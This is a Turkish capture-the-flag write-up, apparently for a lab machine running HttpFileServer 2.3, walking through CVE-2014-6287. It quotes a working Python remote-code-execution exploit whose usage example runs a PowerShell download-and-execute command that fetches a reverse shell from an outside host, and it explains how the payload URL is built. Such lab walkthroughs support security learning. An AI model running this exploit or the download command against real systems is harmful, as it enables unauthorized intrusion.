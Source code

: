 #### Site

Web sitesi tam da nmap komut dosyalarının tanımladığı şeydir - HttpFileServer (HFS):

![Pasted image 20250209174813.png](/img/user/Pasted%20image%2020250209174813.png)

Bazı basit cred tahminlerini denedim ama olmadı.

#### Vulnerabilities

Sayfanın en altında çalışan HFS'nin tam sürümü veriliyor, 2.3. searchsploit'in bu sürüm için bir exploit var:

![Pasted image 20250209175000.png](/img/user/Pasted%20image%2020250209175000.png)

Bu güvenlik açığı CVE-2014-6287 olarak bilinmektedir.

## Shell as kostas

### Exploit Analysis

Exploit'e bakmak için searchsploit -x windows/webapps/49125.py kullanarak, inanılmaz derecede basittir:

```
#!/usr/bin/python3

# Usage :  python3 Exploit.py <RHOST> <Target RPORT> <Command>
# Example: python3 HttpFileServer_2.3.x_rce.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.4/shells/mini-reverse.ps1')"

import urllib3
import sys
import urllib.parse

try:
        http = urllib3.PoolManager()    
        url = f'http://{sys.argv[1]}:{sys.argv[2]}/?search=%00{{.+exec|{urllib.parse.quote(sys.argv[3])}.}}'
        print(url)
        response = http.request('GET', url)
        
except Exception as ex:
        print("Usage: python3 HttpFileServer_2.3.x_rce.py RHOST RPORT command")
        print(ex)
```


Python'da, f-string içindeki `{}` (dikkat edin, URL f'' içine sarılmış) değişkenleri temsil eder, bu nedenle `{{` ve `}}` gerçek küme parantezleri yazmak için kullanılan kaçış karakterleridir. Bu durumda, bu yalnızca RCE (Remote Code Execution - Uzaktan Kod Çalıştırma) elde etmek için `/?search={.+exec|[url-encoded command].}` adresine yapılan tek bir HTTP isteğidir.

